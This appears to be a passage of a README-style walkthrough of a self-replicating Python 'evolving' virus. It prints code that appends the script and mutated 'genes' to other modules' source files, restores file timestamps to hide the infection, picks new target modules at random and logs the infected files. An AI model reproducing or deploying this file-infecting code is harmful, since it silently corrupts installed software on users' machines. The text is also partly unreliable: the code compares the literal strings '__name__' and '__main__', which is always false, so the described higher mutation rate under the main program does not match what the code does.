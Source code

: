 ```python
            f.write('\ngenes=%r\n' % mutate(genes))
            f.write(code)
        os.utime(file, old_time)
        genes['memory'] = backup
```
- If the `mark` is already present in the target file or the file size is less than `minsize`, propagation is terminated.
- Otherwise:
    - Calls `mutate` to mutate the genes.
    - Appends the mutated genes and script code to the target file.
    - Uses `os.utime` to restore the file's original modification date, avoiding leaving traces of propagation.

**Propagation to a module** (function `spread`):
```python
def spread(mod, code):
    spread_to_file(__import__(mod).__file__, code)
```
- Dynamically loads the module using the built-in `__import__` function.
- Retrieves the module's source file path and calls `spread_to_file` to append the script to the module's source file.

### 4. **Gene Mutation**
During propagation, the script calls the `mutate` function to manually mutate its genes:
```python
def mutate(gene):
    import sys, random as r
    mut = gene.copy()
    mut['memory'] = gene['memory'].copy()
    if r.random() < 0.2:
        mut['minsize'] = max(1500, mut['minsize'] + round(r.gauss(0, 80)))
    if (r.random() < 0.1 if '__name__' == '__main__' else r.random() < 0.01):
        mod = None
        while not (hasattr(sys.modules.get(mod), '__file__') \
                   and sys.modules[mod].__file__.lower().endswith('.py')):
            mod = r.choice(list(sys.modules))
        mut['target_mod'] = mod
    return mut
```
- **Mutation rules**:
  - 20% probability to adjust `minsize`, changing the file size threshold.
  - Randomly changes `target_mod` to select another Python module as the propagation target. If the main program (`__name__=='__main__'`) is running, the mutation probability is higher because more modules are loaded into `sys.modules`.
- Gene mutation alters the script's behavior, simulating the evolutionary mechanism of natural selection.

### 5. **Memory Mechanism**
The script implements the `add_memory` function to track propagation history, propagation count, and other information. This is similar to the "memory" of real organisms and is currently used for debugging. In the future, the script may make decisions based on its memory!
```python
def add_memory(gene, item):
    import sys, os
    mem = gene['memory']
    mem.append(item)
    gene['cnt'] += 1
    size = sum(len(item) for item in mem)
    maxsize = 40
    while mem and size > maxsize:
        size -= len(mem.pop(0))
```
- Records the filenames of infected files during each propagation.